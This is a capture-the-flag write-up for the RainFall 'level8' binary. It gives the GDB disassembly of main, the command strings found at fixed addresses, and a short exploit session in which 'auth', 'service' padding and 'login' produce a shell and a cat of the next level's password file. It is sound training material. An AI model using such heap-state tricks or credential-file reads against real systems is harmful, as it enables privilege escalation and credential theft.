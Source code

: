 # Level8

## Exploring the binary
```shell
level8@RainFall:~$ ./level8
(nil), (nil)
phantom society
(nil), (nil)
123 456
(nil), (nil)
```
It appears that the binary continuously accepts two strings from standard input within an infinite loop, suggesting that there might be a specific combination of these strings that grants access to the next level.

## GDB analysis
```shell
(gdb) disas main
Dump of assembler code for function main:
   0x08048564 <+0>:		push   %ebp
   0x08048565 <+1>:		mov    %esp,%ebp
   0x08048567 <+3>:		push   %edi
   0x08048568 <+4>:		push   %esi
   0x08048569 <+5>:		and    $0xfffffff0,%esp
   0x0804856c <+8>:		sub    $0xa0,%esp
   0x08048572 <+14>:	jmp    0x8048575 <main+17>
   0x08048574 <+16>:	nop
   0x08048575 <+17>:	mov    0x8049ab0,%ecx
   0x0804857b <+23>:	mov    0x8049aac,%edx
   0x08048581 <+29>:	mov    $0x8048810,%eax
   0x08048586 <+34>:	mov    %ecx,0x8(%esp)
   0x0804858a <+38>:	mov    %edx,0x4(%esp)
   0x0804858e <+42>:	mov    %eax,(%esp)
   0x08048591 <+45>:	call   0x8048410 <printf@plt>
   0x08048596 <+50>:	mov    0x8049a80,%eax
   0x0804859b <+55>:	mov    %eax,0x8(%esp)
   0x0804859f <+59>:	movl   $0x80,0x4(%esp)
   0x080485a7 <+67>:	lea    0x20(%esp),%eax
   0x080485ab <+71>:	mov    %eax,(%esp)
   0x080485ae <+74>:	call   0x8048440 <fgets@plt>
   0x080485b3 <+79>:	test   %eax,%eax
   0x080485b5 <+81>:	je     0x804872c <main+456>
   0x080485bb <+87>:	lea    0x20(%esp),%eax
   0x080485bf <+91>:	mov    %eax,%edx
   0x080485c1 <+93>:	mov    $0x8048819,%eax
   0x080485c6 <+98>:	mov    $0x5,%ecx
   0x080485cb <+103>:	mov    %edx,%esi
   0x080485cd <+105>:	mov    %eax,%edi
   0x080485cf <+107>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x080485d1 <+109>:	seta   %dl
   0x080485d4 <+112>:	setb   %al
   0x080485d7 <+115>:	mov    %edx,%ecx
   0x080485d9 <+117>:	sub    %al,%cl
   0x080485db <+119>:	mov    %ecx,%eax
   0x080485dd <+121>:	movsbl %al,%eax
   0x080485e0 <+124>:	test   %eax,%eax
   0x080485e2 <+126>:	jne    0x8048642 <main+222>
   0x080485e4 <+128>:	movl   $0x4,(%esp)
   0x080485eb <+135>:	call   0x8048470 <malloc@plt>
   0x080485f0 <+140>:	mov    %eax,0x8049aac
   0x080485f5 <+145>:	mov    0x8049aac,%eax
   0x080485fa <+150>:	movl   $0x0,(%eax)
   0x08048600 <+156>:	lea    0x20(%esp),%eax
   0x08048604 <+160>:	add    $0x5,%eax
   0x08048607 <+163>:	movl   $0xffffffff,0x1c(%esp)
   0x0804860f <+171>:	mov    %eax,%edx
   0x08048611 <+173>:	mov    $0x0,%eax
   0x08048616 <+178>:	mov    0x1c(%esp),%ecx
   0x0804861a <+182>:	mov    %edx,%edi
   0x0804861c <+184>:	repnz scas %es:(%edi),%al
   0x0804861e <+186>:	mov    %ecx,%eax
   0x08048620 <+188>:	not    %eax
   0x08048622 <+190>:	sub    $0x1,%eax
   0x08048625 <+193>:	cmp    $0x1e,%eax
   0x08048628 <+196>:	ja     0x8048642 <main+222>
   0x0804862a <+198>:	lea    0x20(%esp),%eax
   0x0804862e <+202>:	lea    0x5(%eax),%edx
   0x08048631 <+205>:	mov    0x8049aac,%eax
   0x08048636 <+210>:	mov    %edx,0x4(%esp)
   0x0804863a <+214>:	mov    %eax,(%esp)
   0x0804863d <+217>:	call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:	lea    0x20(%esp),%eax
   0x08048646 <+226>:	mov    %eax,%edx
   0x08048648 <+228>:	mov    $0x804881f,%eax
   0x0804864d <+233>:	mov    $0x5,%ecx
   0x08048652 <+238>:	mov    %edx,%esi
   0x08048654 <+240>:	mov    %eax,%edi
   0x08048656 <+242>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x08048658 <+244>:	seta   %dl
   0x0804865b <+247>:	setb   %al
   0x0804865e <+250>:	mov    %edx,%ecx
   0x08048660 <+252>:	sub    %al,%cl
   0x08048662 <+254>:	mov    %ecx,%eax
   0x08048664 <+256>:	movsbl %al,%eax
   0x08048667 <+259>:	test   %eax,%eax
   0x08048669 <+261>:	jne    0x8048678 <main+276>
   0x0804866b <+263>:	mov    0x8049aac,%eax
   0x08048670 <+268>:	mov    %eax,(%esp)
   0x08048673 <+271>:	call   0x8048420 <free@plt>
   0x08048678 <+276>:	lea    0x20(%esp),%eax
   0x0804867c <+280>:	mov    %eax,%edx
   0x0804867e <+282>:	mov    $0x8048825,%eax
   0x08048683 <+287>:	mov    $0x6,%ecx
   0x08048688 <+292>:	mov    %edx,%esi
   0x0804868a <+294>:	mov    %eax,%edi
   0x0804868c <+296>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x0804868e <+298>:	seta   %dl
   0x08048691 <+301>:	setb   %al
   0x08048694 <+304>:	mov    %edx,%ecx
   0x08048696 <+306>:	sub    %al,%cl
   0x08048698 <+308>:	mov    %ecx,%eax
   0x0804869a <+310>:	movsbl %al,%eax
   0x0804869d <+313>:	test   %eax,%eax
   0x0804869f <+315>:	jne    0x80486b5 <main+337>
   0x080486a1 <+317>:	lea    0x20(%esp),%eax
   0x080486a5 <+321>:	add    $0x7,%eax
   0x080486a8 <+324>:	mov    %eax,(%esp)
   0x080486ab <+327>:	call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:	mov    %eax,0x8049ab0
   0x080486b5 <+337>:	lea    0x20(%esp),%eax
   0x080486b9 <+341>:	mov    %eax,%edx
   0x080486bb <+343>:	mov    $0x804882d,%eax
   0x080486c0 <+348>:	mov    $0x5,%ecx
   0x080486c5 <+353>:	mov    %edx,%esi
   0x080486c7 <+355>:	mov    %eax,%edi
   0x080486c9 <+357>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x080486cb <+359>:	seta   %dl
   0x080486ce <+362>:	setb   %al
   0x080486d1 <+365>:	mov    %edx,%ecx
   0x080486d3 <+367>:	sub    %al,%cl
   0x080486d5 <+369>:	mov    %ecx,%eax
   0x080486d7 <+371>:	movsbl %al,%eax
   0x080486da <+374>:	test   %eax,%eax
   0x080486dc <+376>:	jne    0x8048574 <main+16>
   0x080486e2 <+382>:	mov    0x8049aac,%eax
   0x080486e7 <+387>:	mov    0x20(%eax),%eax
   0x080486ea <+390>:	test   %eax,%eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	movl   $0x8048833,(%esp)
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
   0x080486fa <+406>:	jmp    0x8048574 <main+16>
   0x080486ff <+411>:	mov    0x8049aa0,%eax
   0x08048704 <+416>:	mov    %eax,%edx
   0x08048706 <+418>:	mov    $0x804883b,%eax
   0x0804870b <+423>:	mov    %edx,0xc(%esp)
   0x0804870f <+427>:	movl   $0xa,0x8(%esp)
   0x08048717 <+435>:	movl   $0x1,0x4(%esp)
   0x0804871f <+443>:	mov    %eax,(%esp)
   0x08048722 <+446>:	call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:	jmp    0x8048574 <main+16>
   0x0804872c <+456>:	nop
   0x0804872d <+457>:	mov    $0x0,%eax
   0x08048732 <+462>:	lea    -0x8(%ebp),%esp
   0x08048735 <+465>:	pop    %esi
   0x08048736 <+466>:	pop    %edi
   0x08048737 <+467>:	pop    %ebp
   0x08048738 <+468>:	ret
End of assembler dump.
```
We observe that <code>main()</code> employs various functions, ranging from <code>fgets()</code> to <code>system()</code>. After the user inputs data, the buffer read is compared to four different strings - the correct combination of data evokes <code>/bin/bash</code> with <code>system()</code>. Each of these reference strings is loaded into <code>eax</code> (and consequently a different register), allowing us to inspect its contents:

```shell
(gdb) x/s 0x8048819
0x8048819:	 "auth "
(gdb) x/s 0x804881f
0x804881f:	 "reset"
(gdb) x/s 0x8048825
0x8048825:	 "service"
(gdb) x/s 0x804882d
0x804882d:	 "login"
```
We observe that two of the strings <code>auth</code> and <code>service</code> actually represent global variables, which undergo modification during runtime.
```shell
(gdb) i var
All defined variables:

Non-debugging symbols:
0x08048808  _fp_hw
0x0804880c  _IO_stdin_used
0x08048948  __FRAME_END__
0x0804994c  __CTOR_LIST__
0x0804994c  __init_array_end
0x0804994c  __init_array_start
0x08049950  __CTOR_END__
0x08049954  __DTOR_LIST__
0x08049958  __DTOR_END__
0x0804995c  __JCR_END__
0x0804995c  __JCR_LIST__
0x08049960  _DYNAMIC
0x08049a2c  _GLOBAL_OFFSET_TABLE_
0x08049a60  __data_start
0x08049a60  data_start
0x08049a64  __dso_handle
0x08049a80  stdin@@GLIBC_2.0
0x08049aa0  stdout@@GLIBC_2.0
0x08049aa4  completed.6159
0x08049aa8  dtor_idx.6161
0x08049aac  auth
0x08049ab0  service
```
## 4 commands

- <code>auth</code>: Allocates 4 bytes for the <code>auth</code> variable and uses <code>strcpy</code> to copy up to 32 bytes (0x20) into it.
- <code>reset</code>: Frees the memory allocated for the auth variable.
- <code>service</code>: Uses <code>strdup</code> to duplicate the remaining input and stores it in the <code>service</code> variable.
- <code>login</code>: Verifies if the 32nd character in <code>auth</code> is set.

It looks simple - we just enter "auth" at the beginning and then just fill the buffer.

## Exploit
``` shell
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service ffffffffffffffffffffffff
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
